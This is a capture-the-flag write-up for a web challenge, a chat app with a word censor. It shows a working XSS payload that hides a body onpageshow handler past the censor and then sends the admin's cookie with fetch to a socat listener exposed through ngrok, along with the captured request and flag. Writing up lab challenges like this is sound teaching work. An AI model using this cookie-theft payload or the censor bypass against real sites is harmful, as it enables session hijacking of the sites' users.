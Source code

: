 # whatsup

## What it is

It is a chat webapp, you can send messages to other users.

Some words are censored (replaced by ```*```), they will be replaced wherever they appear in the message.\
For example ```console``` will become ```***sole```.
Some of the words we found:
- con
- ass
- fuck
- shit
- bite
- merde
- cul
- hell

The max input size is 255 char (a bit less actually).

## Solution

We can put code in the ```onpageshow``` event of the body ([source](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpageshow).

example:
```html
<body onpageshow="alert('Hey')">
```

To use function/objects like ```console``` that contain censored words we can use a simple trick:
```html
<body onpageshow="globalThis['co'+'nsole'].log('Hey')">
```

We need our injected code to send us the admin's cookie when the admin loads their messages.

### Setting up the server

First we need a server with that can be reached by the admin's client, here is a simple solution

Use socat to create a tcp socket, we could use a real http server but it doesn't really matter.
```bash
$ socat TCP-LISTEN:9000,fork stdout
```

Then to make it available online we can use [ngrok](https://ngrok.com/):
```bash
$ ngrok http 900

Session Status                online                                                                                
Account                       User (Plan: Free)                                                                   
Version                       3.1.0                                                                                 
Region                        Europe (eu)                                                                           
Latency                       42ms                                                                                  
Web Interface                 http://127.0.0.1:4040                                                                 
Forwarding                    https://7097-163-5-23-68.eu.ngrok.io -> http://localhost:9000
```
Notice the ```Forwarding``` section, ```https://7097-163-5-23-68.eu.ngrok.io``` is where we'll want the admin to make requests.

### XSS command

We can use [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) to make http requests, the cookie is in ```document.cookie```.
```html
<body onpageshow="fetch('https://7097-163-5-23-68.eu.ngrok.io', {method: 'post', body: document.cookie})">
```

A first request will arrive immediately, that's the one from our client. Within a minute a second request will arrive from the admin.

Using socat it should look something like this:
```
POST / HTTP/1.1
Host: 7097-163-5-23-68.eu.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Content-Length: 0
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Cache-Control: no-cache
Content-Type: text/plain;charset=UTF-8
Origin: https://whatsup.secu-web.blackfoot.dev
Pragma: no-cache
Referer: https://whatsup.secu-web.blackfoot.dev/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers
X-Forwarded-For: 163.5.23.68
X-Forwarded-Proto: https

POST / HTTP/1.1
Host: 7097-163-5-23-68.eu.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/78.0.3882.0 Safari/537.36
Content-Length: 36
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Origin: http://whatsup:8000
Referer: http://whatsup:8000/admin
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
X-Forwarded-For: 35.242.202.31
X-Forwarded-Proto: https

flag=BFS{XSS_M0R3_L!K3_FR33_C00K!35}
```

flag: ```BFS{XSS_M0R3_L!K3_FR33_C00K!35}```
